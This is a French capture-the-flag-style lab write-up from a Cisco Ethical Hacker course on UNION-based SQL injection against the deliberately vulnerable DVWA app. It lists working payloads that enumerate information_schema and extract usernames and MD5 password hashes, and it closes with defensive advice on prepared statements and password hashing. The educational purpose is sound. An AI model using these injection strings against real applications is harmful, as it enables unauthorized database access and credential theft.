






# Injection SQL sur DVWA (Cisco Ethical Hacker - Labo pratique)

Un des labos du parcours Cisco Ethical Hacker, sur DVWA cette fois, l'appli volontairement vulnérable la plus utilisée pour s'entraîner sur les bases de l'injection SQL. Ici on part d'un simple champ "User ID" et on va jusqu'à sortir les identifiants de tous les comptes.

## Le contexte

DVWA propose un formulaire tout simple : un champ `User ID`, qui va chercher le prénom et le nom associés dans la base. Niveau Low, donc aucune protection, requête construite sans échappement ni requêtes préparées. La requête derrière ressemble typiquement à :

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```

Dès qu'on voit un formulaire qui va piocher une info précise en fonction d'un ID, le réflexe c'est de tester si on peut casser la syntaxe de la requête.

## Étape 1 : confirmer l'injection

Premier test basique pour vérifier que l'appli est vulnérable :

```sql
' OR 1=1 #
```

Ça casse la clause `WHERE` et retourne tous les utilisateurs d'un coup au lieu d'un seul. Confirmation immédiate : l'input n'est ni échappé ni filtré, l'injection est ouverte.



## Étape 2 : trouver le bon nombre de colonnes

Pour faire du UNION-based, il faut que le nombre de colonnes de mon `SELECT` corresponde exactement à celui de la requête d'origine. Ici la page affiche deux champs (prénom, nom), donc je pars sur deux colonnes :

```sql
' OR 1=1 UNION SELECT 1, VERSION() #
```

Ça passe sans erreur. Confirmation que deux colonnes suffisent, et au passage je récupère la version du serveur MySQL (`5.5.58-0+deb8u1` dans ce cas) directement affichée à la place du nom de famille.



## Étape 3 : remonter le nom de la base

Une fois qu'on sait qu'on peut injecter du texte dans la deuxième colonne, autant en profiter pour cartographier l'environnement :

```sql
' OR 1=1 UNION SELECT 1, DATABASE() #
```

Résultat : `dvwa`. Je sais maintenant exactement dans quelle base je suis en train de fouiller.



## Étape 4 : lister les tables

`information_schema` est la base système présente sur tout MySQL, elle contient les métadonnées de toutes les autres bases : tables, colonnes, tout. C'est la cible logique pour cartographier ce qu'il y a à voler :

```sql
' OR 1=1 UNION SELECT 1, table_name FROM information_schema.tables 
WHERE table_type='base table' AND table_schema=DATABASE() #
```

Deux tables ressortent : `guestbook` et `users`. C'est évidemment `users` qui m'intéresse.



## Étape 5 : lister les colonnes de la table users

Même logique, mais sur `information_schema.columns` cette fois, en ciblant précisément la table `users` :

```sql
' OR 1=1 UNION SELECT 1, column_name FROM information_schema.columns 
WHERE table_name='users' #
```

Ça déroule les noms de colonnes un par un : `user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`. Les deux qui comptent vraiment pour la suite sont évidemment `user` et `password`.



## Étape 6 : extraire les identifiants

Dernière étape, la plus directe : demander exactement les deux colonnes repérées à l'étape précédente.

```sql
' OR 1=1 UNION SELECT user, password FROM users #
```

Et là, tout tombe : la liste complète des comptes avec leurs hashs de mot de passe :

```
admin   : 5f4dcc3b5aa765d61d8327deb882cf99
gordonb : e99a18c428cb38d5f260853678922e03
1337    : 8d3533d75ae2c3966d7e0d4fcc69216b
pablo   : 0d107d09f5bbe40cade3de5c71e9e9b7
smithy  : 5f4dcc3b5aa765d61d8327deb882cf99
```



Les hashs sont en MD5, reconnaissable à la longueur (32 caractères hexadécimaux) et clairement crackable en quelques secondes sur n'importe quel site de rainbow table ou avec hashcat en local. `5f4dcc3b5aa765d61d8327deb882cf99` par exemple, c'est le hash MD5 de `password`, un classique qui revient tout le temps sur ce genre de labo.

## Pourquoi ça marche

Toute la chaîne repose sur le même problème de base : l'input utilisateur est concaténé directement dans la requête SQL, sans requête préparée ni échappement. Une fois qu'on a confirmé l'injection et le bon nombre de colonnes, `information_schema` devient une mine d'or qui permet de cartographier toute la base sans rien connaître à l'avance. Pas besoin de deviner les noms de tables ou de colonnes, la base les donne elle-même.

## Ce que je retiens

La méthodo UNION-based, c'est vraiment toujours le même enchaînement : confirmer l'injection, trouver le nombre de colonnes, identifier ce qui s'affiche à l'écran (pour savoir où placer mes données volées), puis remonter base → tables → colonnes → données via `information_schema`. Une fois cette logique en tête, le formulaire le plus anodin devient un point d'entrée vers toute la base.

Le fait que les mots de passe soient en simple MD5 (sans salage) ici n'est pas un hasard non plus : c'est volontairement représentatif d'une mauvaise pratique encore trop fréquente en vrai : même si l'injection est corrigée un jour, un hash MD5 nu reste crackable en quelques secondes si jamais il fuite ailleurs.

## Comment se protéger

Si je devais corriger cette appli, la priorité absolue serait les **requêtes préparées**. C'est vraiment la seule protection qui règle le problème à la racine plutôt que de le contenir : l'input utilisateur n'est jamais concaténé dans la requête, il est passé à côté comme simple paramètre, donc peu importe ce que quelqu'un tape dedans, ça ne peut plus casser la syntaxe SQL.

```php
// Vulnérable : concaténation directe
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";

// Protégé : requête préparée
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->execute([$id]);
```

Après ça, tout le reste vient en soutien, jamais en remplacement :

- **Principe du moindre privilège** : le compte MySQL de l'appli ne devrait avoir accès qu'au strict nécessaire. S'il ne peut pas lire `information_schema` en profondeur ni sortir de son périmètre de tables, une injection qui passerait quand même rapporterait beaucoup moins.
- **Typer les entrées** : un `user_id` censé être un entier devrait l'être avant même d'atteindre la requête (ça ferme une partie des tentatives basiques, sans remplacer les prepared statements).
- **Ne pas exposer les erreurs SQL** : message générique côté utilisateur, vrais logs côté serveur. Autant ne pas donner gratuitement des indices sur la structure de la base.
- **Hasher correctement les mots de passe** : bcrypt, scrypt ou argon2 (avec sel et facteur de coût), pas du MD5 nu.
- **WAF** : utile comme filet de sécurité, jamais comme seule protection. La vraie défense reste dans le code.

---

*Outils : navigateur uniquement, formulaire DVWA en Low Security, aucun outil d'automatisation nécessaire pour ce niveau.*
